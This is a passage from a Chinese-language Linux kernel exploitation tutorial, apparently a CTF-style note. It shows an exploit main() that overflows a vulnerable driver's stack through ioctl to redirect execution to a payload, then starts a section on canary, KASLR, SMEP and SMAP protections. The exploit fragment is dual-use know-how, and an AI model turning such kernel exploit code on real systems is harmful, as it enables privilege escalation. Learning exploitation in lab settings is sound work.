 一般采用ioctl(driver_fd,command,&struct)与驱动程序进行交互。

接下来是mian函数：
```
int main()
{
    save_status();
    int fd = open("/dev/baby",0);
    uint64_t temp[0x100] = {
        0,0,0,0,0,0,0,0,
        0,0,0,0,0,0,0,0,
        0,&payload
    };
    //getchar(); //方便下断点调试。
    ioctl(fd,0x60001,temp);
}
```
这是无保护的基础的栈溢出。

#### 二、canary、kalsr、smep、smap

Kaslr 地址随机化、Smep 内核态不可执行用户态代码、 Smap 内核态不可访问用户态内存。

例题分析：
先查看保护：

![](./img/13.png)
